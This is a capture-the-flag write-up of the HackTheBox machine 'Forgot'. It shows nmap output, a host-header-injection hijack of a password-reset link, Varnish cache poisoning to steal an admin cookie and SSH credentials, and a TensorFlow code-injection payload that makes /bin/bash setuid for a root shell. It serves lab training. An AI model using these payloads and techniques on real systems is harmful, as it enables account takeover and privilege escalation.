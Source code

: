 Sup, this is write up for the box Forgot from Hackthebox. Let's start with nmap:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-06 09:39 EST
Nmap scan report for 10.10.11.188 (10.10.11.188)
Host is up (0.058s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Werkzeug/2.1.2 Python/3.8.10
```

There are two ports open ssh and http. We see that the site is running python. Looking at the error when trying to visit site that surely doesn't
exist we see familiar flask not found page. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Forgot/images/IMG1.png?raw=true)

On the main page is login form. That is not vulnerable to sql injection.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Forgot/images/IMG2.png?raw=true)

Trying different usernames doesn't return different error when trying to log in meaning we can't do username enumeration based on error message.
Looking at the source code there is username: robert-dev-87120 (this one is different for each htb player so people don't collide when playing the box).

We can request password recovery link. With that we can try to get the server to send the reset link to our server with host header injection (for example https://medium.com/@tameemkhalid786/host-header-injection-on-password-reset-functionality-an-easy-p2-5c6263c2e3d4).

Now we start netcat or python server on our machine:

```
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
``` 

After that we catch the request in burp:

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Forgot/images/IMG3png?raw=true)

And we get reset link on our python server:

```
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.188 - - [06/Mar/2023 10:07:28] code 404, message File not found
10.10.11.188 - - [06/Mar/2023 10:07:28] "GET /reset?token=HpnpS2AIvUsIX8oF9KouawOmYQfhr9CjGXBjQMCAXEJxZZWFvKHXGL653pam6IKBnJdIpAJC94Hnzaq0cordSQ%3D%3D HTTP/1.1" 404 -
```

Now let's visit the link and change roberts password to whatever we want. Now we are in on the site. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Forgot/images/IMG4.png?raw=true)

In navbar there are four things the last one being disabled. We can either enable it or just visit admin_tickets. But we get access denied. 

If we curl the site with '-I' to see headers we get this:

```
# curl -I http://10.10.11.188/
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Fri, 10 Mar 2023 14:48:40 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 5186
X-Varnish: 196623 196621
Age: 9
Via: 1.1 varnish (Varnish/6.2)
Accept-Ranges: bytes
Connection: keep-alive
``` 

There is a Varnish reverse proxy responsible for caching. It doesn't cache the default page as there is Age:0 in headers but `/static` gets cached. 
We can send link through `/escalate` that admins click with /static and should save his cookie so we can view the ssh creds in the ticket.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Forgot/images/IMG5.png?raw=true)

We will wait some time so it doesn't cache our request without the admin cookie. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Forgot/images/IMG6.png?raw=true)

And now we have creds for ssh: `diego:dCb#1!x0%gjq` and we can login:

```
# ssh diego@10.10.11.188                                                                                                                                                                                                            
diego@10.10.11.188's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-132-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 10 Mar 2023 04:09:52 PM UTC

  System load:           0.03
  Usage of /:            65.9% of 8.72GB
  Memory usage:          16%
  Swap usage:            0%
  Processes:             220
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.188
  IPv6 address for eth0: dead:beef::250:56ff:feb9:768


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Nov 18 10:51:30 2022 from 10.10.14.40
diego@forgot:~$ 
```

Having password we can start looking for ways to escalate privileges with `sudo -l`:

```
diego@forgot:~$ sudo -l
Matching Defaults entries for diego on forgot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User diego may run the following commands on forgot:
    (ALL) NOPASSWD: /opt/security/ml_security.py
```

Don't know much about python so I will just look at different functions to use for privesc.
This one stood out:

```
preprocess_input_exprs_arg_string
```

There is code injection CVE for this https://github.com/advisories/GHSA-75c9-jrh4-79mc
The script checks for XSS and when it detects it it gets passwed to the `preprocess_input_exprs_arg_string` function.

I'll use this payload to make bash setuid which is the easiest way to get root. For some reason it had problem with `+s`

```
hello=exec("""\nimport os\nos.system('chmod 4777 /bin/bash')""");#<script>alert('xss')</script>
```

After that I can just simply run the script with sudo and make bash setuid.

```
iego@forgot:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
diego@forgot:~$ sudo /opt/security/ml_security.py
2023-03-11 23:17:02.168590: W tensorflow/stream_executor/platform/default/dso_loader.cc:64] Could not load dynamic library 'libcudart.so.11.0'; dlerror: libcudart.so.11.0: cannot open shared object file: No such file or directory
2023-03-11 23:17:02.168625: I tensorflow/stream_executor/cuda/cudart_stub.cc:29] Ignore above cudart dlerror if you do not have a GPU set up on your machine.
chmod: invalid mode: ‘s’
Try 'chmod --help' for more information.
chmod: invalid mode: ‘s’
Try 'chmod --help' for more information.
chmod: invalid mode: ‘s’
Try 'chmod --help' for more information.
diego@forgot:~$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1183448 Apr 18  2022 /bin/bash
diego@forgot:~$ /bin/bash -p
bash-5.0# id
uid=1000(diego) gid=1000(diego) euid=0(root) groups=1000(diego)
```

It still has the problem with s but we got root shell anyway. This means the end of this box. Thanks for reading u can hit me up on twitter https://twitter.com/Vojtech1337 and until next time.
